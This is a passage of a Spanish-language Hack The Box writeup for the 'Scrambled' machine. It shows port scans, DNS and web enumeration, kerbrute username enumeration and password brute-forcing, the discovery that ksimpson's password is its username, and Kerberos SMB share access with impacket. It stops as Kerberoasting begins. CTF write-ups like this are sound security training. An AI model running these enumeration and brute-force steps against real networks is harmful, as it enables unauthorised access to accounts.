










+++
author = "Andrés Del Cerro"
title = "Hack The Box: Scrambled Writeup | Medium"
date = "2024-12-18"
description = ""
tags = [
    "HackTheBox",
    "Scrambled",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "DNS Enumeration",
    "HTTP Enumeration",
    "Information Disclosure",
    "Abusing Insecure Credentials",
    "SMB Enumeration without NTLM authentication",
    "Kerberoasting",
    "TGS Cracking",
    "Hash Cracking",
    "Cracking",
    "Obtaining Domain SID from ObjectSid",
    "Configuring Kerberos Realm",
    "GSSAPI",
    "Silver Ticket Attack",
    "Exposed User Credentials",
    "Abusing xp_cmdshell",
    "User Pivoting",
    "Reversing .NET Executable",
    "Analyzing .NET Code",
    "Binary Formatter ",
    "Insecure Deserialization",
    "ysoserial.net"
]

+++

# Hack The Box: Scrambled Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Scrambled"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 10.129.108.148 --ulimit 5000 -g
10.129.108.148 -> [53,80,88,135,139,389,445,464,593,636,1433,3268,3269,4411,5985,9389,49667,49673,49674,49700,49701,49720]
```

```console
nmap -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,4411,5985,9389,49667,49673,49674,49700,49701,49720 -sCV 10.129.108.148 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-18 15:13 CET
Stats: 0:00:06 elapsed; 0 hosts completed 
Nmap scan report for 10.129.108.148
Host is up (0.038s latency).

Bug in ms-sql-ntlm-info: no string output.
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Scramble Corp Intranet
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-18 14:13:34Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
|_ssl-date: 2024-12-18T14:16:45+00:00; +1s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-18T14:16:45+00:00; +1s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2024-12-18T14:16:45+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-12-18T14:11:49
|_Not valid after:  2054-12-18T14:11:49
| ms-sql-info:
|   10.129.108.148:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
|_ssl-date: 2024-12-18T14:16:45+00:00; +1s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
|_ssl-date: 2024-12-18T14:16:45+00:00; +1s from scanner time.
4411/tcp  open  found?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
|     SCRAMBLECORP_ORDERS_V1.0.3;
|   FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions:
|     SCRAMBLECORP_ORDERS_V1.0.3;
|_    ERROR_UNKNOWN_COMMAND;
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
49720/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4411-TCP:V=7.94SVN%I=7%D=12/18%Time=6762D88B%P=x86_64-pc-linux-gnu%
SF:r(NULL,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(GenericLines,1D,"SCRAM
SF:BLECORP_ORDERS_V1\.0\.3;\r\n")%r(GetRequest,35,"SCRAMBLECORP_ORDERS_V1\
SF:.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(HTTPOptions,35,"SCRAMBLECORP_O
SF:RDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RTSPRequest,35,"SCRAM
SF:BLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RPCCheck,1D,
SF:"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(DNSVersionBindReqTCP,1D,"SCRAMBL
SF:ECORP_ORDERS_V1\.0\.3;\r\n")%r(DNSStatusRequestTCP,1D,"SCRAMBLECORP_ORD
SF:ERS_V1\.0\.3;\r\n")%r(Help,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_U
SF:NKNOWN_COMMAND;\r\n")%r(SSLSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;
SF:\r\n")%r(TerminalServerCookie,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r
SF:(TLSSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(Kerberos,1D,"S
SF:CRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SMBProgNeg,1D,"SCRAMBLECORP_ORDERS
SF:_V1\.0\.3;\r\n")%r(X11Probe,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(F
SF:ourOhFourRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COM
SF:MAND;\r\n")%r(LPDString,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKN
SF:OWN_COMMAND;\r\n")%r(LDAPSearchReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\
SF:n")%r(LDAPBindReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SIPOptions,
SF:35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(LAN
SF:Desk-RC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TerminalServer,1D,"SC
SF:RAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(NCP,1D,"SCRAMBLECORP_ORDERS_V1\.0\.
SF:3;\r\n")%r(NotesRPC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(JavaRMI,1
SF:D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(WMSRequest,1D,"SCRAMBLECORP_OR
SF:DERS_V1\.0\.3;\r\n")%r(oracle-tns,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n
SF:")%r(ms-sql-s,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(afp,1D,"SCRAMBL
SF:ECORP_ORDERS_V1\.0\.3;\r\n")%r(giop,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r
SF:\n");
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-12-18T14:16:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.21 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.108.148 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-18 15:14 CET
Nmap scan report for 10.129.108.148
Host is up (0.043s latency).
Not shown: 1498 open|filtered udp ports (no-response)
PORT    STATE SERVICE
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 0.86 seconds
```

Del escaneo inicial encontramos el dominio `scrm.local`, lo añadimos al `/etc/hosts`

También vemos seguramente lo que es el controlador de dominio, `DC1.scrm.local`, lo añadimos al `/etc/hosts`

También vemos dos cosas interesantes, está expuesto el puerto 1433 que corresponde a un MSSQL, y vemos el puerto 4411 que corresponde a un servicio desconocido.

# DNS Enumeration
Vamos a enumerar el servicio DNS para intentar encontrar otros subdominios, podemos consultar los registros con `dig` pero no vemos nada que no sepamos.
```console
dig A scrm.local @10.129.108.148

; <<>> DiG 9.19.19-1-Debian <<>> A scrm.local @10.129.108.148
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 62846
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;scrm.local.			IN	A

;; ANSWER SECTION:
scrm.local.		600	IN	A	10.129.108.148

;; Query time: 36 msec
;; SERVER: 10.129.108.148#53(10.129.108.148) (UDP)
;; WHEN: Wed Dec 18 15:20:55 CET 2024
;; MSG SIZE  rcvd: 55
```

```console
dig NS scrm.local @10.129.108.148

; <<>> DiG 9.19.19-1-Debian <<>> NS scrm.local @10.129.108.148
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54633
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 3

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;scrm.local.			IN	NS

;; ANSWER SECTION:
scrm.local.		3600	IN	NS	dc1.scrm.local.

;; ADDITIONAL SECTION:
dc1.scrm.local.		1200	IN	A	10.129.108.148
dc1.scrm.local.		1200	IN	AAAA	dead:beef::f823:3fa4:9f87:619d

;; Query time: 40 msec
;; SERVER: 10.129.108.148#53(10.129.108.148) (UDP)
;; WHEN: Wed Dec 18 15:20:58 CET 2024
;; MSG SIZE  rcvd: 101
```

También podemos intentar una transferencia de zona pero no podemos.
```console
dig axfr scrm.local @10.129.108.148

; <<>> DiG 9.19.19-1-Debian <<>> axfr scrm.local @10.129.108.148
;; global options: +cmd
; Transfer failed.
```

Podemos intentar hacer fuerza bruta de subdominios a ver si encontramos algún registro que no hayamos podido ver en un principio pero no vemos nada nuevo.
```console
dnsenum --dnsserver 10.129.108.148 scrm.local -f /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
dnsenum VERSION:1.2.6

-----   scrm.local   -----


Host's addresses:
__________________

scrm.local.                              600      IN    A        10.129.108.148


Name Servers:
______________

dc1.scrm.local.                          1200     IN    A        10.129.108.148


Mail (MX) Servers:
___________________


Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: dc1.scrm.local at /usr/bin/dnsenum line 897.

Trying Zone Transfer for scrm.local on dc1.scrm.local ...
AXFR record query failed: no nameservers


Brute forcing with /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:
__________________________________________________________________________________________________
```

# HTTP Enumeration
Vamos a enumerar el servicio web, `whatweb`no nos reporta nada interesante, pero podemos ver que se está utilizando un IIS por detrás.
```console
whatweb http://scrm.local
http://scrm.local [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.108.148], JQuery, Microsoft-IIS[10.0], Script, Title[Scramble Corp Intranet]
```

Así se ve el sitio web.


## Some Interesting Information
En el recurso `/support.html` encontramos un mensaje bastante interesante.

> 04/09/2021: Due to the security breach last month we have now disabled all NTLM authentication on our network. This may cause problems for some of the programs you use so please be patient while we work to resolve any issues 

Esto significa que la organización quiere utilizar métodos más seguros de autenticación, probablemente Kerberos, así que habrá que jugar mucho con tickets en esta máquina.

En el recurso `/supportrequest.html` encontramos una captura de pantalla que reporta un nombre de usuario, `ksimpson`


En el recurso `newuser.html` encontramos un formulario que no tiene destino, así que lo podemos ignorar.

Otra cosa interesante que encontramos en el sitio web, es el recurso `/salesorders.html`, podemos ver una aplicación personalizada donde vemos que se utiliza el puerto 4411 que es el que no sabíamos a que pertenecía en el escaneo de `nmap`



También vemos que hay una opción en el programa llamada `Enable Debug Logging` el cual según la descripción, crearía un archivo `ScrambleDebugLog` en el mismo directorio donde hemos lanzado la aplicación de ventas.

# Insecure password without NTLM auth
Lo único que tenemos es el usuario `ksimpson`, me gustaría probar primero si este usuario es válido a nivel de dominio, para ello podemos utilizar `kerbrute` 
```console
/usr/share/kerbrute userenum --dc 10.129.108.148 -d scrm.local users.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 12/18/24 - Ronnie Flathers @ropnop

2024/12/18 15:34:27 >  Using KDC(s):
2024/12/18 15:34:27 >  	10.129.108.148:88

2024/12/18 15:34:27 >  [+] VALID USERNAME:	 ksimpson@scrm.local
2024/12/18 15:34:27 >  Done! Tested 1 usernames (1 valid) in 0.042 seconds
```

Eso es bueno, ya que podemos probar a ver si este usuario tiene el atributo `UF_DONT_REQUIRE_PREAUTH` activado (no).

Pero también podemos intentar recorrer el `rockyou.txt` con `kerbrute`, después de un rato no encontramos nada.
```console
/usr/share/kerbrute bruteuser --dc 10.129.108.148 -d scrm.local /usr/share/wordlists/rockyou.txt ksimpson

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 12/18/24 - Ronnie Flathers @ropnop

2024/12/18 15:35:28 >  Using KDC(s):
2024/12/18 15:35:28 >  	10.129.108.148:88
```

Si intentamos el mismo usuario como contraseña vemos que es un combo válido.
```console
/usr/share/kerbrute bruteuser --dc 10.129.108.148 -d scrm.local users.txt ksimpson

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 12/18/24 - Ronnie Flathers @ropnop

2024/12/18 15:35:40 >  Using KDC(s):
2024/12/18 15:35:40 >  	10.129.108.148:88

2024/12/18 15:35:40 >  [+] VALID LOGIN:	 ksimpson@scrm.local:ksimpson
2024/12/18 15:35:40 >  Done! Tested 1 logins (1 successes) in 0.162 seconds
```

# SMB Enumeration without NTLM
No podemos enumerar el SMB utilizando `smbmap` ya que la autenticación debe de ser mediante Kerberos, aunque creo que si que admite autenticación por Kerberos pero esta vez vamos a optar por una forma alternativa mas rápida.

```console
smbmap -H 10.129.108.148 -u ksimpson -p ksimpson

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 0 SMB session(s)
```

`smbmap` por ejemplo, debería de soportar la autenticación por Kerberos, pero supongo que debería solicitar el ticket TGT y exportarlo al `KRB5CCNAME`, pero para ello podemos utilizar la herramienta `impacket-smbclient` especificando el parámetro `-k` para habilitar la autenticación por Kerberos.

```console
impacket-smbclient scrm.local/ksimpson:ksimpson@DC1.scrm.local -k
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
Type help for list of commands
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL
```

Vemos varios recursos interesantes, pero para la mayoría no tenemos acceso.
```console
# use HR
[-] SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
# use IT
[-] SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
# use Sales
[-] SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
```

Sin embargo en el recurso `Public` vemos un PDF
```console
# ls
drw-rw-rw-          0  Thu Nov  4 23:23:19 2021 .
drw-rw-rw-          0  Thu Nov  4 23:23:19 2021 ..
-rw-rw-rw-     630106  Fri Nov  5 18:45:07 2021 Network Security Changes.pdf
```

Nos podemos descargar este documento.
```console
# get Network Security Changes.pdf
```

Voy a renombrar el documento para quitar los espacios.
```console
mv Network\ Security\ Changes.pdf doc.pdf
```

No vemos ningún metadato interesante.
```console
exiftool doc.pdf
ExifTool Version Number         : 12.76
File Name                       : doc.pdf
Directory                       : .
File Size                       : 630 kB
File Modification Date/Time     : 2024:12:18 15:50:55+01:00
File Access Date/Time           : 2024:12:18 15:51:29+01:00
File Inode Change Date/Time     : 2024:12:18 15:51:12+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Language                        : en-GB
Tagged PDF                      : Yes
Producer                        : Microsoft® Word 2010
Creator                         : Microsoft® Word 2010
Create Date                     : 2021:11:04 22:20:49+00:00
Modify Date                     : 2021:11:04 22:20:49+00:00
```

Vamos a servir este documento por el puerto 8081 y así podemos visualizarlo cómodamente desde el navegador.
```console
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

# Kerberoasting
En resumen han habido algunos cambios, primero se ha deshabilitado la autenticación NTLM y ahora se utiliza Kerberos para acceder a los recursos.
Y el segundo cambio fue que se eliminó acceso al MSSQL excepto para los administradores de red.


Sabiendo que está el servicio de MSSQL, algo que debería de haber probado es el `kerberoasting` que además es totalmente compatible con que la autenticación NTLM esté desactivada.

